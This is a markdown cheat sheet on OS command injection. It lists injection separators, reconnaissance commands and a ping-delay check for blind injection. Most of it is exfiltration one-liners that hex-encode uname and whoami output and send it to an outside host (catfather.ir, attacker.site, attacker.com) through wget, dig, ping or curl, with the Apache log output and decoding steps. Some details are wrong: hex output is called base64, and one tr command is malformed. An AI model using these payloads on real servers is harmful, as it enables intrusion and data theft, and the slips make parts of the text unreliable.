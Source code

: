 # CI ( Command Injection )

CI is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application

## ****Ways of injecting OS commands****

```bash
&
&&
|
||
;
%0a
0x0a
\n
`command`
${command}
```

[more]([https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection))

## Useful Command

- UNIX

```bash
whoami
id
uname -a
ifconfig
netstat -n
ps -ef
```

- windows

```bash
whoami
ver
ipconfig /all
netstat -n
tasklist
```

## ****Blind OS command injection vulnerabilities****

In blind mode the application does not return the output from the command within its HTTP response.

- Detecting by time delay

```bash
& ping -c 10 127.0.0.1 &
```

## Exfilteration Data

Given we don’t have space and other specific characters in subdomain, we encode the our data and append it to our url then send it by DNS query or other ways.

- Payload:
- `od` encode data to base64

```bash
uname -a | od -A n -t x1 | sed 's/ *//g' | while read x; do wget -q --spider catfather.ir/$x -U "$(whoami)";done
```

- Apache log

First we can tail -f /var/log/apache2/access.log and extract the whoami then following command:

```bash
> awk '/mrcat/' /var/log/apache2/access.log
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:37 +0400] "HEAD /4a696e75782063617446617468657220 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:38 +0400] "HEAD /352e31382e31362d61726368312d3120 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:38 +0400] "HEAD /233120534d5020505245454d50545f44 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:39 +0400] "HEAD /524e414d4943205765642c2030332041 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:40 +0400] "HEAD /756720323032322031313a32353a3034 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:43 +0400] "HEAD /262b30303030207838365f363420474e HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:43 +0400] "HEAD /532f4c696e75780a HTTP/1.1" 404 196 "-" "mrcat"

```

- Extract data and decode
- `xxd` decode base64
- `tr` delete newline

```bash
awk '/mrcat/' /var/log/apache2/access.log | awk 'match($0, /HEAD\s\/(.*)\sHTTP/) {print substr($0, RSTART+6, RLENGTH-11)}' | tr -d '\n' | xxd -r -p
```

Another Example

- Payload

```bash
uname -a | od -A n -t x1 | sed 's/ *//g' | while read x; do wget -q --spider catfather.ir/$(whoami) -U "$x";done
```

- Apache log

```bash
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:20 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:20 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:21 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:27 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "4a696e75782063617446617468657220"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:28 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "3b2e31382e31362d61726368312d3120"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:36 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "2a3120534d5020505245454d50545f44"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:37 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "5d4e414d4943205765642c2030332041"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:37 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "7b6720323032322031313a32353a3034"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:38 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "2a2b30303030207838365f363420474e"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:39 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "5a2f4c696e75780a"
```

- Extract & decode

```bash
awk -F '"' '/\/mrcat/ {print $6}' /var/log/apache2/access.log | awk '! /-/' | tr -d n | xxd -r -p
```

Also we can send data via:

- dig a encode.attacker.site
- ping -c 1 encode.attacker.site
- curl [attacker.site](http://attacker.site) -A "echode-data"


- Use Encoder and fold.

```bash
id|base64|fold -10|while read x;do ping -c 1 $x.attacker.com ;done
```
